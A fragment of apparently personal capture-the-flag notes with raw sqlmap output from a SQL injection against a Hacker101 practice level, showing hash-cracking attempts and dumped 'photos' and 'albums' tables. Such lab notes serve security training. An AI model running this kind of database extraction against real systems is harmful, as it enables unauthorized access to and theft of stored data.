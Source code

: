                 do you want to use common password suffixes? (slow!) [y/N] N
                [08:57:45] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
                [08:57:45] [INFO] starting 8 processes 
                [08:57:52] [WARNING] no clear password(s) found                                       
                Database: level5
                Table: photos
                [3 entries]
                +----+------------------+--------+------------------------------------------------------------------+
                | id | title            | parent | filename                                                         |
                +----+------------------+--------+------------------------------------------------------------------+
                | 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
                | 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
                | 3  | Invisible        | 1      | 7aeb980c8f4c0f954969bbe9e2e641c9e58a4f4f1be4d3b8b62ff695f9fcce52 |
                +----+------------------+--------+------------------------------------------------------------------+
                
                [08:57:52] [INFO] table 'level5.photos' dumped to CSV file '/home/lsaldanha/.local/share/sqlmap/output/0ccbdce07db99afe41d457172af110b7.ctf.hacker101.com/dump/level5/photos.csv'
                [08:57:52] [INFO] fetching columns for table 'albums' in database 'level5'
                [08:57:52] [INFO] retrieved: 2
                [08:58:04] [INFO] retrieved: id
                [08:58:27] [INFO] retrieved: title
                [08:59:42] [INFO] fetching entries for table 'albums' in database 'level5'
                [08:59:42] [INFO] fetching number of entries for table 'albums' in database 'level5'
                [08:59:42] [INFO] retrieved: 1
                [08:59:54] [INFO] retrieved: 1
                [09:00:04] [INFO] retrieved: Kittens
                Database: level5
                Table: albums
                [1 entry]
                +----+---------+
                | id | title   |
                +----+---------+
                | 1  | Kittens |
                +----+---------+
                
                [09:02:04] [INFO] table 'level5.albums' dumped to CSV file '/home/lsaldanha/.local/share/sqlmap/output/0ccbdce07db99afe41d457172af110b7.ctf.hacker101.com/dump/level5/albums.csv'
                [09:02:04] [WARNING] HTTP error codes detected during run:
                500 (Internal Server Error) - 29 times, 404 (Not Found) - 742 times
                [09:02:04] [INFO] fetched data logged to text files under '/home/lsaldanha/.local/share/sqlmap/output/0ccbdce07db99afe41d457172af110b7.ctf.hacker101.com'
                
                [*] ending @ 09:02:04 /2023-04-24/
                ```
                
            - Basicos
                